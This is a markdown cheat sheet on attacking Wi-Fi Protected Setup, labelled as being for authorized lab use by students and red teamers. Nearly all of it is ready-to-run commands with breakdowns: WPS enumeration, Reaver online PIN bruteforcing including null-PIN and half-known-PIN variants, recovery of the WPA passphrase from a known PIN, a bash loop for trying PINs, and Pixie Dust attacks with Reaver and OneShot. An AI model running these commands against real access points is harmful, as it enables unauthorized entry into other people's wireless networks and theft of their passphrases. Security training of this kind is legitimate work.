

# Attacking Wi-Fi Protected Setup (WPS)

> **Purpose:** Structured reference for enumerating and attacking WPS-enabled access points in **authorized lab environments only**.  
> **Audience:** Students and red teamers learning WPS attacks such as online PIN bruteforcing, Pixie Dust, and misc WPS workflows.

---

## Overview Workflow



---

## 1. WPS Reconnaissance

### Concept

First, identify **which APs support WPS**, whether they’re locked, and optionally which vendor you’re dealing with (helps pick targeted attacks or PIN generators).

---

### 1.1 Enable Monitor Mode

> Prepare a wireless interface for passive capture and injection.

```bash
airmon-ng start wlan0
```

**Breakdown:**

- `airmon-ng` – utility from the Aircrack-ng suite to manage monitor mode interfaces.
    
- `start` – tells `airmon-ng` to enable monitor mode.
    
- `wlan0` – name of the **physical wireless interface**; `airmon-ng` typically creates `wlan0mon` as the monitor interface.
    

---

### 1.2 Enumerate WPS Networks with airodump-ng

> Scan for nearby APs and show WPS information.

```bash
airodump-ng --wps wlan0mon
```

**Breakdown:**

- `airodump-ng` – passive 802.11 scanner that lists APs and clients.
    
- `--wps` – enable **WPS information display** (e.g., WPS version, locked/unlocked).
    
- `wlan0mon` – monitor-mode interface created earlier.
    

---

### 1.3 Enumerate WPS Networks with wash

> Dedicated WPS scanner using `wash`.

```bash
wash -i wlan0mon
```

**Breakdown:**

- `wash` – tool from the Reaver suite specifically for **discovering WPS-enabled APs**.
    
- `-i wlan0mon`
    
    - `-i` – choose network interface.
        
    - `wlan0mon` – monitor-mode interface to listen on.
        

---

### 1.4 Verbose WPS Scan with wash (JSON)

> Same as above, but with more verbose/structured output (useful for scripting).

```bash
wash -j -i wlan0mon
```

**Breakdown:**

- `wash` – WPS scanner.
    
- `-j` – output results in **JSON** / verbose format.
    
- `-i wlan0mon` – use `wlan0mon` monitor interface.
    

---

### 1.5 Vendor Lookup by BSSID (OUI Lookup)

> Map the AP’s MAC prefix to a manufacturer.

```bash
grep -i "84-1B-5E" /var/lib/ieee-data/oui.txt
```

**Breakdown:**

- `grep` – search for text patterns.
    
- `-i` – **case-insensitive** search.
    
- `"84-1B-5E"` – OUI (first three bytes of a MAC address) from the target BSSID.
    
- `/var/lib/ieee-data/oui.txt` – local database mapping OUIs to **vendor names**.
    

---

## 2. Online PIN Bruteforcing Attacks

### Concept

These attacks interact directly with the AP’s WPS implementation, **trying many PINs over the air** until the correct one is found (or retrieved via known/default PINs). This can ultimately reveal the **WPS PIN** and/or the **WPA/WPA2 PSK**.

---

### 2.1 Create a Dedicated Monitor Interface with `iw`

> Add a new monitor-mode interface (`mon0`) and bring it up.

```bash
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
```

**Breakdown:**

- `iw` – modern Linux wireless configuration tool.
    
- `dev wlan0` – operate on device `wlan0`.
    
- `interface add mon0` – create a **new virtual interface** named `mon0`.
    
- `type monitor` – set interface type to **monitor** (passive capture + injection).
    

Second line:

- `ifconfig` – legacy tool to configure interfaces.
    
- `mon0` – the newly created interface.
    
- `up` – bring interface into an **active** state.
    

---

### 2.2 Standard WPS PIN Bruteforce with Reaver

> Launch a straightforward online WPS PIN bruteforce against a target BSSID.

```bash
reaver -i mon0 -b AE:EB:B0:11:A0:1E -c 1
```

**Breakdown:**

- `reaver` – classic tool for online WPS PIN bruteforce.
    
- `-i mon0` – use monitor interface `mon0`.
    
- `-b AE:EB:B0:11:A0:1E` – target AP **BSSID** (MAC address).
    
- `-c 1` – specify AP’s **channel** (1 in this example).
    

---

### 2.3 Bruteforce with Half-Known PIN

> Speed up attacks when **first or last half** of the PIN is known.

```bash
reaver -i mon0 -b B2:A5:1D:E1:B2:11 -c 1 -p 1234
```

**Breakdown:**

- `reaver` – WPS PIN attack tool.
    
- `-i mon0` – monitor interface.
    
- `-b B2:A5:1D:E1:B2:11` – target AP BSSID.
    
- `-c 1` – AP channel.
    
- `-p 1234` – **fixed/known part of the PIN**; Reaver brute-forces remaining digits.
    

---

### 2.4 Null PIN Authentication

> Test if the AP incorrectly accepts a **blank WPS PIN**.

```bash
reaver -b 5A:1A:59:B7:E7:97 -c 1 -i mon0 -p ""
```

**Breakdown:**

- `reaver` – WPS attack tool.
    
- `-b 5A:1A:59:B7:E7:97` – target BSSID.
    
- `-c 1` – AP channel.
    
- `-i mon0` – monitor interface.
    
- `-p ""` – **empty string** as PIN (Null PIN); used to check for misconfigurations.
    

---

### 2.5 Retrieve WPA-PSK Using a Known WPS PIN

> If you already know the correct WPS PIN, retrieve the **WPA passphrase** directly.

```bash
sudo reaver -i mon0 -b 60:38:E0:2A:4F:21 -p 88766197
```

**Breakdown:**

- `sudo` – run with root privileges (raw packet access).
    
- `reaver` – WPS attack tool.
    
- `-i mon0` – monitor interface.
    
- `-b 60:38:E0:2A:4F:21` – target AP BSSID.
    
- `-p 88766197` – **known valid WPS PIN** used to retrieve the stored PSK from the AP.
    

---

### 2.6 Generate WPS PINs from BSSID with wpspin

> Calculate likely WPS PINs based on AP MAC / vendor algorithms.

```bash
wpspin -A 60:38:E0:A2:3D:2A
```

**Breakdown:**

- `wpspin` – utility to generate **default / algorithmic WPS PINs**.
    
- `-A` – generate **multiple candidate PINs** (aggressive mode) based on vendor algorithms.
    
- `60:38:E0:A2:3D:2A` – BSSID (MAC address) used as input to the algorithm.
    

---

### 2.7 Bash Script: Try a Small List of WPS PINs

> Loop through a short list of candidate PINs and try each with Reaver.

```bash
#!/bin/bash
PINS='73834410 94229882 73834410'

for PIN in $PINS; do
  echo "Attempting PIN: $PIN"
  sudo reaver --max-attempts=1 -l 100 -r 3:45 \
    -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p "$PIN"
done

echo "PIN Guesses Complete"
```

**What this script does:**  
Automates testing a small list of WPS PINs against a single target AP using Reaver.

**Breakdown:**

- `#!/bin/bash` – shebang; run script with Bash.
    
- `PINS='73834410 94229882 73834410'` – space-separated list of **candidate WPS PINs**.
    

Loop:

- `for PIN in $PINS; do` – iterate through each PIN value.
    
- `echo "Attempting PIN: $PIN"` – print which PIN is currently tested.
    
- `sudo reaver ...` – call Reaver with fine-tuned throttling options:
    
    - `--max-attempts=1` – give up after 1 failed attempt per PIN (since we’re explicitly iterating).
        
    - `-l 100` – **lock delay**, wait 100 seconds if AP reports it’s locked.
        
    - `-r 3:45` – **rate limit**; after 3 attempts, sleep for 45 seconds.
        
    - `-i mon0` – monitor interface.
        
    - `-b 60:38:E0:A2:3D:2A` – target BSSID.
        
    - `-c 1` – AP channel.
        
    - `-p "$PIN"` – inject current PIN from the loop.
        
- `done` – end of loop.
    
- `echo "PIN Guesses Complete"` – print status message when all PINs are attempted.
    

---

## 3. Offline PIN Bruteforcing (Pixie Dust & OneShot)

### Concept

**Pixie Dust** attacks exploit weak randomization in some WPS implementations. Instead of online bruteforce, they use a few captured messages to compute the PIN **offline**, which is much faster and avoids rate limiting.

---

### 3.1 Pixie Dust Attack with Reaver

> Launch Pixie Dust against a vulnerable AP using Reaver.

```bash
reaver -K 1 -vvv -b 86:FC:9F:5D:67:4E -c 1 -i mon0
```

**Breakdown:**

- `reaver` – WPS attack tool.
    
- `-K 1` – enable **Pixie Dust mode** (`1` commonly triggers the attack).
    
- `-vvv` – very verbose output (3 levels of `-v`) for detailed status.
    
- `-b 86:FC:9F:5D:67:4E` – target BSSID.
    
- `-c 1` – AP channel.
    
- `-i mon0` – monitor interface.
    

---

### 3.2 Pixie Dust / WPS Attack with OneShot

> Use the `OneShot` tool as an alternative Pixie Dust / WPS exploit.

```bash
python3 oneshot.py -b 86:FC:9F:5D:67:4E -i wlan0mon -K
```

**Breakdown:**

- `python3` – invoke the Python 3 interpreter.
    
- `oneshot.py` – OneShot script, which implements various WPS exploits including Pixie Dust.
    
- `-b 86:FC:9F:5D:67:4E` – AP BSSID.
    
- `-i wlan0mon` – monitor interface.
    
- `-K` – enable **Pixie Dust / offline key derivation** functionality.
    

---

## 4. Miscellaneous WPS Attacks & Connectivity

### Concept

Once a valid WPS PIN or PBC window is available, you can connect directly using `wpa_cli` or `OneShot`, or tune a **long-running Reaver bruteforce** with rate limiting.

---

### 4.1 List Networks with wpa_cli

> Show scan results via `wpa_supplicant`’s interactive client.

```bash
wpa_cli scan_results
```

**Breakdown:**

- `wpa_cli` – command-line control tool for `wpa_supplicant`.
    
- `scan_results` – print the most recent **scan results**, including BSSIDs, channels, and signal strengths.
    

---

### 4.2 Connect to WPS Network via PBC (wpa_cli)

> Use **Push Button Configuration (PBC)** to associate with a WPS-enabled AP.

```bash
wpa_cli wps_pbc D8:D6:3D:EB:29:D5
```

**Breakdown:**

- `wpa_cli` – client to control `wpa_supplicant`.
    
- `wps_pbc` – initiate **WPS PBC** (push button) method.
    
- `D8:D6:3D:EB:29:D5` – BSSID of the target AP that has WPS PBC enabled.
    

---

### 4.3 Connect to WPS Network via PBC (OneShot)

> Invoke OneShot purely to connect using PBC rather than bruteforcing.

```bash
python3 /opt/OneShot/oneshot.py -i wlan0mon --pbc
```

**Breakdown:**

- `python3` – run with Python 3.
    
- `/opt/OneShot/oneshot.py` – full path to OneShot script.
    
- `-i wlan0mon` – monitor-capable interface used by OneShot.
    
- `--pbc` – enable **push button configuration** mode; attempts connection when AP WPS PBC is active.
    

---

### 4.4 Tuned Long-Running WPS PIN Bruteforce with Reaver

> Bruteforce a WPS PIN while carefully obeying AP lockout timings.

```bash
sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX
```

**Breakdown:**

- `sudo` – run as root (required for raw Wi-Fi operations).
    
- `reaver` – WPS bruteforce tool.
    
- `-l 100` – **lockout timeout**; if AP indicates it’s locked, wait 100 seconds before retrying.
    
- `-r 3:45` – **rate limiting**; after 3 unsuccessful attempts, sleep for 45 seconds.
    
- `-i wlan0mon` – monitor interface.
    
- `-b 60:38:E0:XX:XX:XX` – target BSSID; `XX:XX:XX` represents the last three bytes (redacted/variable).